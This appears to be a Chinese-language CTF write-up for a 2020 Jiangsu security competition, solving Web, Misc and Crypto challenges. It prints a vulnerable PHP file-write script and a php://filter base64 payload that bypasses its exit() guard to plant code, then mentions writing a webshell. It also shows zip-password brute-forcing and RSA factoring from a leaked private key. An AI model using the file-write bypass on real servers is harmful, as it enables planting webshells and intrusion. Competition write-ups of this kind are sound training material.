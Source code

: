 # Web

## 签到

略

---

## php审计

```php
<?php
$content = '<?php exit(0);?>';
$content .= @$_POST['code'];
$filename = @$_POST['filename'];
if (isset($filename)){
	file_put_contents($filename, $content);
}else{
	echo "今天天气不错";
}
?>
```

通过 base64 绕过 `<?php exit(0);?>`

```
code=PD9waHAgcGhwaW5mbygpID8+&filename=php://filter/write=convert.base64-decode/resource=1.php
```

![](../../../../assets/img/Security/CTF/writeup/2020-10-全国网络与信息安全管理职业技能大赛江苏场-writeup/18.png)

![](../../../../assets/img/Security/CTF/writeup/2020-10-全国网络与信息安全管理职业技能大赛江苏场-writeup/19.png)

接下来直接写shell即可

---

# Misc

## 压缩包

打开zip文件 查看注释，发现密码为6位数字

![](../../../../assets/img/Security/CTF/writeup/2020-10-全国网络与信息安全管理职业技能大赛江苏场-writeup/1.png)

使用软件爆破，密码是 732654

![](../../../../assets/img/Security/CTF/writeup/2020-10-全国网络与信息安全管理职业技能大赛江苏场-writeup/2.png)

解压出来一个 111.zip 和一个 trips.txt

用winrar修复即可打开111.zip

![](../../../../assets/img/Security/CTF/writeup/2020-10-全国网络与信息安全管理职业技能大赛江苏场-writeup/3.png)

![](../../../../assets/img/Security/CTF/writeup/2020-10-全国网络与信息安全管理职业技能大赛江苏场-writeup/4.png)

查看 sh 内容发现 压缩包密码是时间戳

![](../../../../assets/img/Security/CTF/writeup/2020-10-全国网络与信息安全管理职业技能大赛江苏场-writeup/5.png)

查看压缩包时间

![](../../../../assets/img/Security/CTF/writeup/2020-10-全国网络与信息安全管理职业技能大赛江苏场-writeup/6.png)

构造时间戳字典

![](../../../../assets/img/Security/CTF/writeup/2020-10-全国网络与信息安全管理职业技能大赛江苏场-writeup/7.png)

爆破

![](../../../../assets/img/Security/CTF/writeup/2020-10-全国网络与信息安全管理职业技能大赛江苏场-writeup/8.png)

查看flag

![](../../../../assets/img/Security/CTF/writeup/2020-10-全国网络与信息安全管理职业技能大赛江苏场-writeup/9.png)

key:F8CA0E5735CB2E6F

---

## 流量分析

直接解压得到流量包

![](../../../../assets/img/Security/CTF/writeup/2020-10-全国网络与信息安全管理职业技能大赛江苏场-writeup/10.png)

过滤仅http

![](../../../../assets/img/Security/CTF/writeup/2020-10-全国网络与信息安全管理职业技能大赛江苏场-writeup/11.png)

过滤http流量  ，然后   文件 》导出分组解析结果 》为CSV      保存为 123.txt

![](../../../../assets/img/Security/CTF/writeup/2020-10-全国网络与信息安全管理职业技能大赛江苏场-writeup/12.png)

用 notepad++  打开 123.txt，可以看到语句语句中还是夹杂着很多的 urlcode

![](../../../../assets/img/Security/CTF/writeup/2020-10-全国网络与信息安全管理职业技能大赛江苏场-writeup/13.png)

Ctrl+A 全选  , 然后   插件 》MIME Tools  》 url decode ，这样就把 URLcode 转为更直观的 ascii 了

![](../../../../assets/img/Security/CTF/writeup/2020-10-全国网络与信息安全管理职业技能大赛江苏场-writeup/14.png)

这个其实就是用二分法 进行 sql 盲注

![](../../../../assets/img/Security/CTF/writeup/2020-10-全国网络与信息安全管理职业技能大赛江苏场-writeup/15.png)

前面代表是测试第几个 字符 后面代表 与当前测试的字符的 ascii 值 相比较的值

手动分析得出flag

```
1=107   k
2=101   e
3=121   y
4=58    :
5=97    a
6=52    4
7=54    6
8=100   d
9=99    c
10=55   7
11=56   8
12=100  d
13=48   0
14=55   7
15=57   9
16=56   8
17=99   c
18=56   8
19=51   3
  =52   4
20=52   4
```

key:a46dc78d0798c844

---

## vmdk取证

直接用 R-Studio 打开vmdk文件，其中一个 txt 的内容 base64解一下就是flag

![](../../../../assets/img/Security/CTF/writeup/2020-10-全国网络与信息安全管理职业技能大赛江苏场-writeup/16.png)

![](../../../../assets/img/Security/CTF/writeup/2020-10-全国网络与信息安全管理职业技能大赛江苏场-writeup/17.png)

---

# Crypto

## RSA1


```
XH想要给YF发送一个重要文件，为了不被他人窃取到，XH向YF索要了他的公钥文件信息。
YF将他现在使用的公钥发送给了XH：
-----BEGIN PUBLIC KEY-----
MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQC0XAw5rV1kqGzeJ1SDB5pTkgO9
RSBgCPm0l5DtdXUDGIJ3dbVC6TOQUHSNFrJPB6AeaSqagyfQCVSUv2EzO/3PLvox
b7hxazHIA2eMZiM3sHcIV9RTdx9pJorDUSB2fV9cnQUiK2smr8X1dt9RCmygpSCf
Ny0ZUYq3DfP/HuErmQIDAQAB
-----END PUBLIC KEY-----
XH用公钥对这个重要的文件进行了加密，然后将密文文件发送给YF：
UtowVjnLpRLTx2oBQlLKDP5cSfvXsz5RB/zO7nqfT6V3wgyK04JOXppCCY/p55rONh2+AZ7NAm3wvu4UwKwZxnw7qtRDSRL6bGZISyrJnyjEXfZHcOSf5BNcjQkJQYRbfN85Z3Ycg+84ABdF+jP7ekQaYikp2duqCoFBJYQcOWw=
但是XH没想到HZ那居然存有YF一组以前用过的私钥信息{n,e,d}：
{126652791247329858012081502617335427176078480967667235544422134698198761482081791188813953951941166617081546172312960216751960777234759603468040766428093969369837780011477003514642408424390144176644572101310535367720328881391192872513206457534291258525724324556727750428833407076738446023533405981578792872857,11666173,78440145437642026565505218176077635100043568658968467746538509828225145179636090827892006864282536091633117590477854513613339188289472952126032503980856086589942743747087799102224535294351908895347839402204845161252154330813186873353157721693911405483196449338177610947843869107506937519564559825768669662629}
就这样，XH发送的文件泄露了。
XH发送给YF的信息即为key文件信息。
```

```py
# coding=utf-8
import random
import libnum

d = 78440145437642026565505218176077635100043568658968467746538509828225145179636090827892006864282536091633117590477854513613339188289472952126032503980856086589942743747087799102224535294351908895347839402204845161252154330813186873353157721693911405483196449338177610947843869107506937519564559825768669662629
e = 11666173
n = 126652791247329858012081502617335427176078480967667235544422134698198761482081791188813953951941166617081546172312960216751960777234759603468040766428093969369837780011477003514642408424390144176644572101310535367720328881391192872513206457534291258525724324556727750428833407076738446023533405981578792872857

k = e * d - 1

r = k
t = 0
while True:
    r = r // 2
    t += 1
    if r % 2 == 1:
        break

success = False

for i in range(1, 101):
    g = random.randint(0, n)
    y = pow(g, r, n)
    if y == 1 or y == n - 1:
        continue

    for j in range(1, t):
        x = pow(y, 2, n)
        if x == 1:
            success = True
            break
        elif x == n - 1:
            continue
        else:
            y = x

    if success:
        break
    else:
        continue

if success:
    p = libnum.gcd(y - 1, n)
    q = n // p
    print('P: ' + '%s' % p)
    print('Q: ' + '%s' % q)
else:
    print('Cannot compute P and Q')
```

```py
from Crypto.Util.number import *
import gmpy2

c=0x52da305639cba512d3c76a014252ca0cfe5c49fbd7b33e5107fcceee7a9f4fa577c20c8ad3824e5e9a42098fe9e79ace361dbe019ecd026df0beee14c0ac19c67c3baad4434912fa6c66484b2ac99f28c45df64770e49fe4135c8d090941845b7cdf3967761c83ef38001745fa33fb7a441a622929d9dbaa0a814125841c396c
e=65537
p=9626976998826419276843416143425596889733974434851882744368169052238235836115584054010100532560561818209484869817186516716761718401370275591484387689682663
q=13156029277183223805880847083808239023127130161857296889657452481663176035839817652134147518151213582890894140345326262383715549586968078944271185038023039
d=72222837702293535768001433019745480940909791273992705292676564657233076187624711236528298321435910688825725064493033694255981783829248148386523941024928314873171902399507717591254570081837629624858628871549140866333768191888355910619817655799523654014573134778364308643953515513914429171468097991764936866609

n=p*q
d=gmpy2.invert(e,(q-1)*(p-1))

print(pow(c, d, n))
print(long_to_bytes(pow(c, d, n)))
```

key:12e791ac27df4c99
